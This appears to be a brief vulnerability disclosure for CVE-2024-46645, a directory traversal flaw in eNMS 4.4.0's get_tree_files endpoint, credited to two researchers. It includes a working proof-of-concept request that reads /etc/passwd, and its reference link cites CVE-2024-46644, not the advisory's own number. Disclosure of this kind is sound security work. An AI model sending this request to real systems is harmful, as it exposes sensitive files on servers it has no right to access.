 # **CVE-2024-46645**



# Details
* **Vulnerability Type**: eNMS 4.4.0 Directory Traversal via get_tree_files
* **Affected Application**: eNMS
* **Affected Versions**: 4.4.0
* **Affected Component**: /get_tree_files/>[DIR]
* **Impact**: Unauthorized access to sensitive files, potential exposure of confidential information.

##  ```GET /get_tree_files/>[DIR]>[FILE]```

```
GET /get_tree_files/>etc/>passwd
```

# References
https://www.cve.org/CVERecord?id=CVE-2024-46644
# Credits
**Andrea Pessione** and **Manuel Scala** - SK IT Cyber Security<br></br>
<a href="https://sk-it.com/"><img src="img/skit_logo.png" width="300">
